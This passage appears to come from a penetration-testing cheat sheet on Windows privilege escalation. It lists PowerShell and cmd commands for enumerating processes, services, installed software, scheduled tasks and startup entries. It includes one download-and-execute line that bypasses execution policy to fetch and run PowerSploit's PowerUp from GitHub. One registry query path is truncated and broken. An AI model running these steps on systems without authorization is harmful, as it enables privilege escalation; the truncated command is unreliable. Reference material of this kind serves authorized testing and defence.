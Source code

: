 What processes are running?

```powershell
tasklist /v
net start
sc query
Get-Service
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
```

Which processes are running as "system"

```powershell
tasklist /v /fi "username eq system"
```

Do you have powershell magic?

```powershell
REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion
```

List installed programs

```powershell
Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
```

Scheduled tasks

```powershell
schtasks /query /fo LIST 2>nul | findstr TaskName
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Startup tasks

```powershell
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
```


## Using PowerSploit's PowerUp

Spot the weak service using PowerSploit's PowerUp

```powershell
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
```

## Using Windows Subsystem for Linux (WSL)

